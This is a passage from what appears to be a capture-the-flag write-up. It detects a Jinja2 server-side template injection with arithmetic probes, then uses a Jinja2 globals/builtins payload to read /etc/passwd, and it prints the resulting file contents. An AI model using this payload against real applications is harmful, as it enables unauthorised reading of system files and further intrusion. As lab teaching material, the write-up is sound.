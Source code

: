 ```bash
#{7*7}
```

We see that both {% raw %}`{{7*7}}`{% endraw %} and {% raw %}`{{7*'7'}}`{% endraw %} are calculated/modified. Looking on the "SSTI chart" we can deduce it's either the template engine **Jinja2**, **Twig** or **Unknown**.

![[Pasted image 20220516210055.png]]
**Twig**: {% raw %}{{7*'7'}}{% endraw %} = 49
**Jinja2**: {% raw %}{{7*'7'}}{% endraw %} = 7777777

We've successfully detected the template engine, **Jinja2**.

-----------
### Step 2
Playing around with Jinja2 terms I tried to go with:
{% raw %}`{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}`{% endraw %}

After trying several fonts in different sizes, I finally got it to work with `Hack Regular` size 35. 

```bash
## REPLY
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
svc_acc:x:1000:1000:Service Account:/home/svc_acc:/bin/bash
rtkit:x:111:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
avahi:x:113:116:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:114:117:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
saned:x:115:119::/var/lib/saned:/usr/sbin/nologin
colord:x:116:120:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:117:121:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
geoclue:x:118:123::/var/lib/geoclue:/usr/sbin/nologin
smmta:x:119:124:Mail Transfer Agent,,,:/var/lib/sendmail:/usr/sbin/nologin
smmsp:x:120:125:Mail Submission Program,,,:/var/lib/sendmail:/usr/sbin/nologin
```